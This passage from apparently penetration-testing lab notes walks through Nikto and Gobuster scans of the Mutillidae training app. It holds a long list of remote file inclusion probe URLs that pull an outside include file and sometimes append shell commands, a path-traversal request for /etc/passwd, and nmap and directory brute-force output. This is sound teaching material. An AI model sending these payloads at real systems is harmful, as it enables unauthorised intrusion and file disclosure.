+ OSVDB-5292: GET /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid]=1&GLOBALS=&mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?abg_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?abs_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?abs_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?adduser=true&lang=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?adodb=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ads_file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?arquivo=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?back=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?base==http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?basePath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?bibtexrootrel=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?blog_dc_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?blog_theme=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?body=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?class_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?classified_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?cms=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config[\"sipssys\"]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config[root_ordner]=http://cirt.net/rfiinc.txt??&cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config[root_ordner]=http://cirt.net/rfiinc.txt??cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config_atkroot=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?configuration=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?custom_admin_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?dateiPfad=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?de=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?dept=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?do=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?exec=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ext=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?faq_path=http://cirt.net/rfiinc.txt??&cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?file_Nikto[]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?file_name[]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?file_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?fileloc=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?from=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?func=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?function=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?function=custom&custom=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?gOo=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?gen=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?get=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?home_Nikto=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?home_name=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ilang=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?inc_dir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?inc_dir=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?includeDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?includeFooter=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?includesdir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?insPath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?lang=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?language=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?language=en&main_page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?lizge=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?lng=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?load=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?loadpage=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?main_tabid=1&main_content=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?may=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?middle=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?mode=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?mode=http://cirt.net/rfiinc.txt??&cmd=: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?modpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?news7[\"functions\"]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?news_include_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?open=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?option=com_custompages&cpage=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?page=http://cirt.net/rfiinc.txt?%00: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pagehttp://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?page[path]=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pageNikto=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pagename=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pager=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pagina=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?path_to_folder=http://cirt.net/rfiinc.txt??cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pg=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?pg=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?phpbb_root_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?plugin=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?principal=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?proMod=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?proMod=http://cirt.net/rfiinc.txt??cmd: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?project=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?repinc=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?root_prefix=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?root_prefix=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?section=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?site=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?site_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?styl[top]=http://cirt.net/rfiinc.txt???: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?template=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?templates_dir=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?theme=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?themepath=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?themesdir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?this_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?txt=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?up=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?url=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?w=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?way=http://cirt.net/rfiinc.txt???????????????: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ GET /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: GET /.git/index: Git Index file may contain directory listing information.
+ GET /.git/HEAD: Git HEAD file found. Full repo details may be present.
+ OSVDB-3092: GET /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: GET /webservices/: Directory indexing found.
+ GET /webservices/: Webservices found
+ GET /.git/config: Git config file found. Infos about repo details may be present.
+ OSVDB-3092: GET /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
```

Scanning the target application for LFI vulnerability.

Check for the Remote File Retrieval in verbose mode.

`nikto -h http://192.99.108.3/index.php?page=arbitrary-file-inclusion.php -o ~/Desktop/webapp_nikto_lfi.txt -Format txt -Tuning 5 -Display V`:
```
- Nikto v2.1.6/2.1.5
- Nikto v2.1.6/2.1.5
+ Target Host: 192.141.217.3
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET X-XSS-Protection header has been set to disable XSS Protection. There is unlikely to be a good reason for this.
+ GET Uncommon header 'logged-in-user' found, with contents: 
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie PHPSESSID created without the httponly flag
+ GET Cookie showhints created without the httponly flag
+ HEAD /index.php: Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OGAAJEJY Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ GET /index.php/kboard/: KBoard Forum 0.3.0 and prior have a security problem in forum_edit_post.php, forum_post.php and forum_reply.php
+ GET /index.php/lists/admin/: PHPList pre 2.6.4 contains a number of vulnerabilities including remote administrative access, harvesting user info and more. Default login to admin interface is admin/phplist
+ GET /index.php/splashAdmin.php: Cobalt Qube 3 admin is running. This may have multiple security problems as described by www.scan-associates.net. These could not be tested remotely.
+ GET /index.php/ssdefs/: Siteseed pre 1.4.2 has 'major' security problems.
+ GET /index.php/sshome/: Siteseed pre 1.4.2 has 'major' security problems.
+ GET /index.php/tiki/: Tiki 1.7.2 and previous allowed restricted Wiki pages to be viewed via a 'URL trick'. Default login/pass could be admin/admin
+ GET /index.php/tiki/tiki-install.php: Tiki 1.7.2 and previous allowed restricted Wiki pages to be viewed via a 'URL trick'. Default login/pass could be admin/admin
+ GET /index.php/scripts/samples/details.idc: See RFP 9901; www.wiretrip.net
+ GET /index.php/ows/restricted%2eshow: OWS may allow restricted files to be viewed by replacing a character with its encoded equivalent.
+ GET /index.php/jamdb/: JamDB pre 0.9.2 mp3.php and image.php can allow user to read arbitrary file out of docroot.
+ GET /index.php/.nsf/../winnt/win.ini: This win.ini file can be downloaded.
+ GET /index.php/................../config.sys: PWS allows files to be read by prepending multiple '.' characters.  At worst, IIS, not PWS, should be used.
+ GET /index.php/index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php) ←
+ GET /index.php/servlet/allaire.jrun.ssi.SSIFilter: Allaire ColdFusion allows JSP source viewed through a vulnerable SSI call, see MPSB01-12 http://www.macromedia.com/devnet/security/security_zone/mpsb01-12.html.
+ OSVDB-3284: GET /index.php/iissamples/sdk/asp/docs/Winmsdp.exe?Source=/IISSAMPLES/%c0%ae%c0%ae/default.asp: IIS may be vulnerable to source code viewing via the example Winmsdp.exe file. Remove all default files from the web root. CVE-1999-0738. MS99-013.
+ OSVDB-3286: GET /index.php/conspass.chl+: Abyss allows hidden/protected files to be served if a + is added to the request. CVE-2002-1081
+ OSVDB-3286: GET /index.php/consport.chl+: Abyss allows hidden/protected files to be served if a + is added to the request. CVE-2002-1081
+ OSVDB-3286: GET /index.php/general.chl+: Abyss allows hidden/protected files to be served if a + is added to the request. CVE-2002-1081
+ OSVDB-3286: GET /index.php/srvstatus.chl+: Abyss allows hidden/protected files to be served if a + is added to the request. CVE-2002-1081
+ OSVDB-789: GET /index.php/iissamples/sdk/asp/docs/CodeBrws.asp?Source=/IISSAMPLES/%c0%ae%c0%ae/default.asp: IIS may be vulnerable to source code viewing via the example CodeBrws.asp file. Remove all default files from the web root. CVE-1999-0739. MS99-013.
```

All the requests with the response code 200 are listed in the verbose mode.
The highlighted line indicates that the LFI vulnerability was detected.

### File and Directory Brute-Force - Theory

File and directory brute force is a technique used to discover hidden files and directories on a web server by systematically attempting to access a list of common filenames and directory names. This method involves using automated tools to send numerous HTTP requests to the target server, hoping to find valid paths that are not openly linked on the website.

**Purpose of File & Directory Brute Force**

1. **Information Gathering**: Helps in uncovering files and directories that are not meant to be publicly accessible but might contain important or sensitive information.
2. **Security Assessments**: Identifies potential security weaknesses by discovering hidden paths that could be exploited by attackers.
3. **Penetration Testing**: Used by ethical hackers to map out all accessible areas of a web server, ensuring no vulnerabilities are overlooked.

**Key Tools for File & Directory Brute Force**

1. [**Dirb**](https://github.com/v0re/dirb): A command-line tool used to brute force directories and files on web servers.
3. [**Dirbuster**](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project): A GUI-based tool that uses a wordlist to brute force directories and files on a web server.
4. [**Gobuster**](https://github.com/OJ/gobuster): A fast command-line tool written in Go, used for brute forcing URLs (directories and files) in web servers.
5. [**FFUF (Fuzz Faster U Fool)**](https://github.com/ffuf/ffuf): A fast web fuzzer written in Go, useful for discovering hidden files and directories by brute-forcing with a wordlist.

### File and Directory Brute-Force (with Gobuster) - Lab

#### Lab Environment

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [gobuster](https://github.com/OJ/gobuster) to perform directory enumeration on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application. 

**Objective**: Perform directory enumeration with Gobuster.

Instructions: 
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address 192.X.Y.2. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address 192.X.Y.1
- Use Directory wordlist:` /usr/share/wordlists/dirb/common.txt`.

#### Lab Solution

`ip addr`:
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
418039: eth0@if418040: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.5/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
418042: eth1@if418043: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:63:6c:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.99.108.2/24 brd 192.99.108.255 scope global eth1 ←
       valid_lft forever preferred_lft forever
```

`nmap -sn 192.99.108.1/24 --exclude 192.99.108.1,192.99.108.2`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 21:22 IST
Nmap scan report for t5h9vydapwqwbai1zlwts2n5c.temp-network_a-99-108 (192.99.108.3) ←
Host is up (0.000039s latency). ←
MAC Address: 02:42:C0:63:6C:03 (Unknown)
Nmap done: 254 IP addresses (1 host up) scanned in 1.95 seconds
```

`nmap -sS -sV -Pn 192.99.108.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-14 14:34 IST
Nmap scan report for target-1 (192.99.108.3)
Host is up (0.000014s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu)) ←
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1 ←
MAC Address: 02:42:C0:8D:D9:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Using gobuster to enumerate the discovered webapp.

`gobuster`:
```
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file brutceforcing mode
  dns         Uses DNS subdomain bruteforcing mode
  help        Help about any command
  vhost       Uses VHOST bruteforcing mode

Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -h, --help              help for gobuster
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.
```

Check the available commands for dir mode in gobuster.

`gobuster dir --help`:
```
Uses directory/file brutceforcing mode

Usage:
  gobuster dir [flags]

Flags:
  -f, --addslash                      Append / to each request
  -c, --cookies string                Cookies to use for the requests
  -e, --expanded                      Expanded mode, print full URLs
  -x, --extensions string             File extension(s) to search for
  -r, --followredirect                Follow redirects
  -H, --headers stringArray           Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                          help for dir
  -l, --includelength                 Include the length of the body in the output
  -k, --insecuressl                   Skip SSL certificate verification
  -n, --nostatus                      Don't print status codes
  -P, --password string               Password for Basic Auth
  -p, --proxy string                  Proxy to use for requests [http(s)://host:port]
  -s, --statuscodes string            Positive status codes (will be overwritten with statuscodesblacklist if set) (default "200,204,301,302,307,401,403")
  -b, --statuscodesblacklist string   Negative status codes (will override statuscodes if set)
      --timeout duration              HTTP Timeout (default 10s)
  -u, --url string                    The target URL
  -a, --useragent string              Set the User-Agent string (default "gobuster/3.0.1")
  -U, --username string               Username for Basic Auth
      --wildcard                      Force continued operation when wildcard found

Global Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

Run the gobuster while passing the URL and wordlist as an argument.

`gobuster dir -u http://192.99.108.3 -w /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.171.142.3
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt ←
[+] Status codes:   200,204,301,302,307,401,403 ←
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/06/14 15:25:49 Starting gobuster
===============================================================
/.git/HEAD (Status: 200)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/ajax (Status: 301)
/cgi-bin/ (Status: 403)
/classes (Status: 301)
/config (Status: 301)
/data (Status: 301)
/documentation (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/index.php (Status: 200)
/LICENSE (Status: 200)
/passwords (Status: 301)
/phpmyadmin (Status: 301)
/phpinfo.php (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/styles (Status: 301)
/test (Status: 301)
/webservices (Status: 301)
===============================================================
